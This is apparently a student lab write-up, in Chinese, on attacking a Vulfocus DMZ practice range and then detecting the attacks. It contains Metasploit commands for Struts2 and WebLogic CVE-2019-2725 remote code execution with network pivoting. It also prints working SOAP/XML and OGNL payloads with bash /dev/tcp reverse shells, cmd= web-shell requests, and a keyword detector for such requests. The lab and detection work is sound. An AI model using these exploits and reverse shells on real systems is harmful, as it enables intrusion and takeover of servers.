




# DMZ攻击总流程及漏洞利用检测
## DMZ复现环境搭建
1.进入目录下解压DMZ.zip，并查看用到的images和子网设置相关信息


启动vulfocus


2.需要用到的第一个原镜像不好导入，可以从老师给的地方拉取镜像并导入vulfocus，其他镜像在vulfocus的 镜像管理->镜像管理 搜索栏处搜索对应名字并下载拉取，完成后将镜像均一键导入vulfocus中。


3.在场景管理->环境编排管理中创建新的场景如下，之后点击保存并发布，启动场景。




场景启动后，访问网页发现可以访问成功（注意访问地址的前面的ip地址有bug，需要更换为自己的ip地址）同时可以用docker ps查看发现多出了许多的容器。


## DMZ入口靶标已get flag

### Metasploit 基础配置

先选取攻击者attacker主机，由于我的kali虚拟机一直在启动msfconsole时有报错，因此选择ubuntu主机作为攻击者主机进行操作。
```
#metasploit 基础配置
#更新 metasploit
sudo apt install -y metasploit-framework

#初始化 metasploit 本地工作数据库
sudo msfdb init

#启动 msfconsole
msfconsole
```


### 执行漏洞利用模块（get flag）
```
# 确认已连接 pgsql
db_status
# 建立工作区
workspace -a demo
# 选择并使用一个名为 struts2_multi_eval_ognl 的 exploit 模块。这个模块是用于利用 Apache Struts2 的一个远程代码执行漏洞。
use exploit/multi/http/struts2_multi_eval_ognl
# 使用合适的 exp payload
set payload payload/cmd/unix/reverse_bash

# 配置 exp 参数
# 确保所有 Required=yes 参数均正确配置

# 靶机 IP
set RHOSTS 192.168.56.216 
# 靶机目标端口
set rport  29551          
# 攻击者主机 IP
set LHOST  192.168.56.214 

# 再次检查 exp 配置参数列表
show options
```


```
# 使用合适的 exp payload
set payload payload/cmd/unix/reverse_bash
#执行当前的漏洞利用模块
exploit -j
# 查看打开的reverse shell
sessions -l
# 进入会话 1，无命令行交互提示信息，可以直接输入bash指令获取第一个flag
sessions -i 1
id
ls /tmp
```


将上图中显示出的flag提交，可以发现成功，进度条涨至20%。



## DMZ 内网第一层靶标已 get flag

### 建立立足点并发现靶标2-4

先将cmd shell升级至meterpreter shell


通过sessions -i 3进入meterpreter会话，通过ipconfig等指令查看内网真实地址并建立相关路由。
```
run autoroute -s 192.170.84.0/24

# 检查 Pivot 路由是否已创建成功
run autoroute -p
#最后输入background使其挂到后台运行
```


```
# portscan through pivot
search portscan
use auxiliary/scanner/portscan/tcp
show options
# 根据子网掩码推导
set RHOSTS 192.170.84.2-254
# 根据「经验」
set rport 7001
# 根据「经验」
set threads 10
#（下图中的上述相关配置过程未截图，设置完毕后可通过show options查看确认正确性）
exploit
```


```
# 等到扫描结果 100%
# 查看主机存活情况
hosts

# 查看发现的服务列表
services
```


```
# setup socks5 proxy 
search socks_proxy
use auxiliary/server/socks_proxy
run -j
```


新打开一个命令行ssh连接攻击者主机，检查 1080 端口服务开放情况：sudo lsof -i tcp:1080 -l -n -P


安装下载proxychains4。


安装后发现配置文件缺失，不能成功启动proxychains4。使用sudo vim /etc/proxychains4.conf手动创建配置文件。输入以下内容：
```
strict_chain
proxy_dns
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
# Add your proxy settings here
# Example:
# socks5 127.0.0.1 1080
```

同时确保配置文件有正确的权限，以便 proxychains4 可以读取它：`sudo chmod 644 /etc/proxychains4.conf`，随后可以正常使用。
输入`sudo vim /etc/proxychains4.conf`，更改配置文件，并执行`proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.170.84.2-5`。




重新回到metasploit会话窗口。重新进入shell会话。

```
# 回到 metasploit 会话窗口
# 重新进入 shell 会话
sessions -i 1
curl http://192.170.84.2:7001 -vv
curl http://192.170.84.3:7001 -vv
curl http://192.170.84.4:7001 -vv
```


出现404错误，说明网络层联通，但应用层请求了一个不存在的地址。

### 攻破靶标2-4，并获得flag

我们已知拓扑中三台主机均存在cve-2019-2725漏洞，因此选择利用它。

```
# search exploit
search cve-2019-2725

# getshell
use 0
show options
set RHOSTS 192.170.84.2
# 分别设置不同的靶机 IP （一共需要设置三次）
set lhost 192.168.56.108
# 分别 run（一共要run三次）
run -j

# get flag2-4
sessions -c "ls /tmp" -i 3,4,5
```




成功得到三个flag，提交至vulfocus搭建的环境中，进度涨至80%。


## DMZ内网第二层靶标已get flag

### 发现终点靶标

```
# 通过网卡、路由、ARP 发现新子网 192.169.85.0/24
sessions -c "ifconfig" -i 5,6,7
```


由结果可以发现新子网存在于会话7中，我们将会话7升级为meterpreter shell

```
# 将会话 7 升级为 meterpreter shell
sessions -u 7
# 新的 meterpreter shell 会话编号此处为 8
sessions -i 8
# 将新发现的子网加入 Pivot Route
run autoroute -s 192.169.85.0/24
run autoroute -p
#通过 background指令将其推至后台运行
```


和之前一样，依然选择使用tcp来扫描，但注意要更改相关的配置，如扫描的端口等

```
use scanner/portscan/tcp
set RHOSTS 192.169.85.2-254
set ports 80
run 
#发现终点靶标 192.169.85.2.80(tcp)
```


### 拿到最终靶标上的flag

```
# 利用跳板机 192.170.84.3 的 shell 会话「踩点」最终靶标
sessions -c "curl http://192.169.85.2" -i 5
# 发现没安装 curl ，试试 wget
sessions -c "wget http://192.169.85.2" -i 5
# 发现没有命令执行回显，试试组合命令
sessions -c "wget http://192.169.85.2 -O /tmp/result && cat /tmp/result" -i 5
# 发现 get flag 提示
sessions -c "wget 'http://192.169.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result" -i 5
# index.php?cmd=ls /tmpflag-{bmh8f2e8555-eab8-43f9-8654-78c019607788}
```


提交至vulfocus处，成功，至此最后的靶标5也被成功攻破。


## DMZ入口靶标的漏洞利用检测

使用wireshark过滤规则`http`过滤相关数据包


进行url解码后获得如下：
```
id=%25%7b%28%23instancemanager%3d%23application%5b%22org.apache.tomcat.InstanceManager%22%5d%29.%28%23stack%3d%23attr%5b%22com.opensymphony.xwork2.util.ValueStack.ValueStack%22%5d%29.%28%23bean%3d%23instancemanager.newInstance%28%22org.apache.commons.collections.BeanMap%22%29%29.%28%23bean.setBean%28%23stack%29%29.%28%23context%3d%23bean.get%28%22context%22%29%29.%28%23bean.setBean%28%23context%29%29.%28%23macc%3d%23bean.get%28%22memberAccess%22%29%29.%28%23bean.setBean%28%23macc%29%29.%28%23emptyset%3d%23instancemanager.newInstance%28%22java.util.HashSet%22%29%29.%28%23bean.put%28%22excludedClasses%22%2c%23emptyset%29%29.%28%23bean.put%28%22excludedPackageNames%22%2c%23emptyset%29%29.%28%23execute%3d%23instancemanager.newInstance%28%22freemarker.template.utility.Execute%22%29%29.%28%23execute.exec%28%7b%22bash%20-c%20%7becho%2cYmFzaCAtYyAnMDwmMTA1LTtleGVjIDEwNTw%2bL2Rldi90Y3AvMTkyLjE2OC41Ni4xMDgvNDQ0NDtzaCA8JjEwNSA%2bJjEwNSAyPiYxMDUn%7d%7c%7bbase64%2c-d%7d%7cbash%22%7d%29%29%7d
```

我们对其进行base64编码后获得：

`bash -c '0<&105-;exec 105<>/dev/tcp/192.168.56.108/4444;sh <&105 105>&105 2>&105'`

* 可以看到这是一个典型的 Bash 反弹 Shell（Reverse Shell） 命令，用于建立与攻击者机器的远程连接。

使用过滤规则：`ip.src == 192.168.56.108 && tcp.port== 4444`查看其相关执行的指令：


我们再次追踪相关TCP数据流，可以看到我们之前在反弹shell试图获取flag时尝试的指令。可以看到**显示出的指令与我们之前攻破靶标过程中的是一样的**。


## DMZ第一层靶标的漏洞利用检测

### 方法一：抓包流量

过滤一下arp包可以看到有执行扫描192.170.84.x开放网口的记录，证明攻击者在尝试扫描网段上开放的主机。


通过分析流量，可以看到攻击者曾扫描出了三台在网段上开放的主机。


我们选择其中一个已知存活的主机，并且使用wireshark过滤语法`ip.addr==192.170.84.2`查看其相关流量记录


#### 1. 流量总体情况
- **源IP与目的IP**：源IP地址为192.170.84.5 ，目的IP地址为192.170.84.2 。表明流量是在这两个IP之间交互产生的。
- **协议**：从“Protocol”列看，主要是TCP协议，还有少量HTTP协议 。TCP用于建立可靠连接，HTTP是超文本传输协议，用于Web通信。

#### 2. TCP 相关分析
- **三次握手**：最初能看到SYN（同步）、SYN - ACK（同步确认）和ACK（确认）标志的包，这是TCP三次握手过程，用于建立连接。例如序号238和239的包。
- **数据传输与确认**：后续有大量带有Seq（序列号）和Ack（确认号）的包，进行数据传输和确认，确保数据按序、完整到达。
- **连接关闭**：能发现FIN（结束）标志的包，如序号1960 - 1962的包，用于发起TCP连接关闭过程。

#### 3. HTTP 相关分析
 - 出现“HTTP/1.1 404 Not Found” ，说明客户端请求的资源在服务器上未找到，可能是URL错误或资源被移除。这正巧对应我们攻击靶标时候运行显示的404错误（应用层请求了一个不存在的地址）还有“POST”请求，表明客户端向服务器提交数据。**我们重点关注一下这个POST包。**


通过分析，可以发现这是一个是对 WebLogic `CVE-2019-2725` 漏洞的 **远程命令执行（RCE）利用尝试**，核心内容是一个 **反弹 Shell 的 Payload**：

 **1. 请求方式**

```
POST /_async/AsyncResponseService HTTP/1.1
```

这是漏洞利用的目标接口，WebLogic 在这个接口中会反序列化请求头中的 `WorkContext`，可触发 Java 对象的执行。

**2. 请求头部**

```http
Content-Type: text/xml
SOAPAction: 
```

标准的 SOAP 协议请求头，伪装成一个合法 SOAP 请求（其实是恶意载荷）。

 **3. 请求主体（Payload）**

这是核心：

```xml
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
      <void index="0"><string>/bin/bash</string></void>
      <void index="1"><string>-c</string></void>
      <void index="2">
        <string>
          bash -c '0<&36-;exec 36<>/dev/tcp/192.168.56.102/4444;sh <&36 >&36 2>&36'
        </string>
      </void>
    </array>
    <void method="start"/>
  </void>
</work:WorkContext>
```
具体解释如下：

* `192.168.56.102` 是你的攻击机（监听端）。
* `4444` 是你在攻击机上监听的端口。
* 这条命令会尝试让目标 WebLogic 服务器反连回你的机器并开启一个 Shell。

---

**4. 响应内容**

```http
HTTP/1.1 202 Accepted
```

这表示服务器成功**接收并处理了请求**，说明 SOAP 报文被成功解析，没有抛出异常。


### 方法二：执行脚本检测漏洞
在探究方法二时，我的kali虚拟机已经无法正常在场景中启动此容器，因此使用下述指令强制启动：
```bash
docker run -d --name weblogic-cve-2019-2725 \
  --ulimit nofile=65535:65535 \
  --memory=2g \
  --memory-swap=3g \
  -p 7001:7001 \
  vulfocus/weblogic-cve_2019_2725:latest \
  /bin/bash -c "cd /root/Oracle/Middleware/user_projects/domains/base_domain && ./startWebLogic.sh && tail -f /dev/null"
```
启动后docker ps查看启动结果：


下述脚本参考来自于`https://github.com/ludy-dev/Oracle-WLS-Weblogic-RCE`。
```py
import re
import requests
import sys
import os

# 漏洞探测函数
def exploit(dst_addr):
    # WebLogic 中两个历史存在漏洞的路径
    vuln_list = ("/_async/AsyncResponseService", "/wls-wsat/CoordinatorPortType")
    
    # 构造基础 URL（例如：http://127.0.0.1:7001）
    URL = "http://" + dst_addr

    # 遍历所有漏洞路径进行探测
    for i in vuln_list:
        print(URL + i)
        try:
            # 发送 GET 请求，5 秒超时，verify=False 是跳过 HTTPS 证书验证
            res = requests.get(URL + i, verify=False, timeout=5)
            
            # 获取响应内容与状态码
            response = res.text
            print("Status Code : %d" % res.status_code)

            # 使用正则表达式匹配响应中是否包含 WebLogic 特征关键字
            p = re.compile('elcome|eb')  # 检测 welcome 或 web
            m = p.search(response)

            # 如果匹配成功，表示该路径可能存在 WebLogic 功能 => 推测漏洞存在
            if m:
                print("Vuln Found on %s" % i)
            else:
                print("Not Found on %s" % i)

        # 捕获并输出异常信息
        except Exception as e:
            print("Error requesting %s: %s" % (i, e))

# 脚本入口
if __name__ == "__main__":
    # 如果只输入了 IP，没有端口，则默认加上 80 端口
    if len(sys.argv) == 2:
        sys.argv.append('80')
    # 如果参数不足两个（IP + 端口），提示用户使用方式
    elif len(sys.argv) < 3:
        print('Usage: python %s <dst_ip> <dst_port>' % os.path.basename(sys.argv[0]))
        sys.exit()

    # 拼接目标地址为 IP:端口 的形式
    address = (sys.argv[1], sys.argv[2])
    dst_addr = ":".join(address)

    # 调用漏洞探测函数
    exploit(dst_addr)
```

在命令行运行后显示如下：


#### 含义：

* **Status Code: 200** 表示该路径存在，且可以正常访问。
* **Vuln Found** 表示路径返回了 WebLogic 的特征响应（如包含 welcome/web 字符），因此推测目标存在 **CVE-2019-2725（远程代码执行漏洞）** 的风险。


接下来，我们创建漏洞利用 Payload 文件（XML）

用编辑器创建文件 `payload.xml`：

```bash
sudo vim payload.xml
```


复制以下内容，回车保存退出：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java>
        <object class="java.lang.ProcessBuilder">
          <array class="java.lang.String" length="3">
            <void index="0"><string>/bin/bash</string></void>
            <void index="1"><string>-c</string></void>
            <void index="2"><string>id > /tmp/id.txt</string></void>
          </array>
          <void method="start"/>
        </object>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

---

然后，我们发送漏洞利用请求

用 `curl` 发送请求：

```bash
curl -X POST http://127.0.0.1:7001/_async/AsyncResponseService \
  -H "Content-Type: text/xml" \
  -d @payload.xml
```


---

接下来我们进入容器检查命令执行结果

```bash
docker exec -it weblogic-cve-2019-2725 /bin/bash
```

进入容器后，查看 `/tmp/id.txt` 文件：

```bash
cat /tmp/id.txt
```


## DMZ第二层靶标利用检测
（第三层靶标应该可以通过tcp.port==4444进行流量监测，但是我的抓包文件中在这里似乎没能正常记录下来，而且在后续weblogic容器一直无法正常启动，所以选择尝试单独启动此容器进行分析）

### 方法一：流量检测
通过`tcp.port==4444`过滤语法应该能看到一系列有关第二层靶标攻击的流量。选择追踪流能看到执行的相应指令。


即为我们在这里执行的一系列curl指令，应该会在ip_adrr==（跳板机）并且tcp.port=4444的过滤条件下显示出来。

我们重新单独启动容器，并运行之前的指令尝试获取flag，可以在wireshark上看到流量监测记录。


### 方法二：查看容器内的 Nginx 日志
进入容器内部：
```bash
docker exec -it 25c8b2739921 /bin/bash
```
查找日志路径：
```bash
find /var/log -name "access.log"
```
然后执行：
```bash
tail -f /var/log/nginx/access.log
```
可以选择配合 grep 使用，过滤出关键信息：
```bash
tail -f /var/log/nginx/access.log | grep "cmd="
```


你抓到的这些日志，**恰好就是典型的命令执行漏洞被利用的证据**，下面我来详细分析每一部分的含义，并说明这在“漏洞利用检测”中的意义。

**日志结构解析**

以这一条为例：

```
192.168.56.116 - - [23/Jun/2025:15:34:56 +0000] "GET /index.php?cmd=ls%20/tmp HTTP/1.1" 200 79 "-" "curl/8.13.0"
```

**字段说明：**

| 字段                             | 含义                                |
| ------------------------------ | --------------------------------- |
| `192.168.56.116`               | 发起请求的客户端 IP（攻击者或测试者）              |
| `23/Jun/2025:15:34:56`         | 请求时间                              |
| `GET /index.php?cmd=ls%20/tmp` | 访问路径，带有 `cmd=ls /tmp`，这是命令执行的入口点  |
| `200`                          | 返回状态码（200 表示成功）                   |
| `79`                           | 返回内容字节数                           |
| `curl/8.13.0`                  | User-Agent，说明使用了命令行工具 `curl` 发起请求 |


**安全分析结论**

| 检测点           | 结果                                     |
| ------------- | -------------------------------------- |
| 是否有命令执行行为     | ✅ 有，路径中包含 `?cmd=`，并返回 `200`            |
| 是否有人尝试读取 flag | ✅ 有，`cmd=ls /tmp` 就是常见的读取 flag 或后门路径行为 |
| 是否有外部访问尝试     | ✅ 有来自 `111.249.177.162` 的扫描行为          |
| 利用工具          | 有人用 `curl`、有人用浏览器发起                    |


### 方法三：编写一个轻量检测脚本（Python）

>**实时检测 Nginx 日志中是否出现命令执行的可疑请求，例如访问了 `/index.php?cmd=...`，或尝试读取 `/tmp/flag` 文件。**

---
我们用 Python 编写一个脚本，它会：

1. **持续读取 Nginx 日志文件（access.log）**
2. **识别是否有请求中包含关键参数，如 `cmd=`, `cat`, `flag`, `/tmp` 等**
3. **发现可疑请求后立即在终端提示（或者写入日志、报警等）**

---
**步骤详解**

第 1 步：进入容器或挂载日志

你可以在容器里运行脚本，也可以把日志挂载到宿主机路径（比如 `/tmp/nginx-access.log`），示例：

```bash
docker run -d -p 51653:80 -v /tmp/nginx:/var/log/nginx c4pr1c3/vulshare_nginx-php-flag:latest
```

这样就能在宿主机用 Python 读 `/tmp/nginx/access.log`

---

第 2 步：创建 Python 脚本

创建一个名为 `detect_rce.py` 的文件，内容如下：

```python
import time

# 日志文件路径：根据容器/宿主机实际情况修改
log_file = "/var/log/nginx/access.log"   # 容器内部路径
# log_file = "/tmp/nginx/access.log"     # 宿主机挂载路径（可选）

# 你要监控的关键词
keywords = ["cmd=", "cat", "flag", "/tmp", "whoami", "nc", "bash", "id"]

print("[*] 正在实时监控访问日志是否有命令执行请求...")

# 打开日志文件，定位到最后一行
with open(log_file, "r") as f:
    f.seek(0, 2)  # 定位到文件末尾

    while True:
        line = f.readline()
        if not line:
            time.sleep(0.5)
            continue
        # 检查是否包含关键词
        if any(keyword in line for keyword in keywords):
            print("\n[!!!] 可疑请求检测到！")
            print("原始日志:", line.strip())
```

---

第 3 步：运行脚本

进入容器或在宿主机运行：

```bash
python3 detect_rce.py
```

一旦有人访问了：

```
http://<ip>:51653/index.php?cmd=cat /tmp/flag
```

会立刻看到输出：

```
[!!!] 可疑请求检测到！
原始日志: 192.168.56.116 - - [23/Jun/2025:15:42:02 +0000] "GET /index.php?cmd=cat%20/tmp/flag HTTP/1.1" ...
```

---


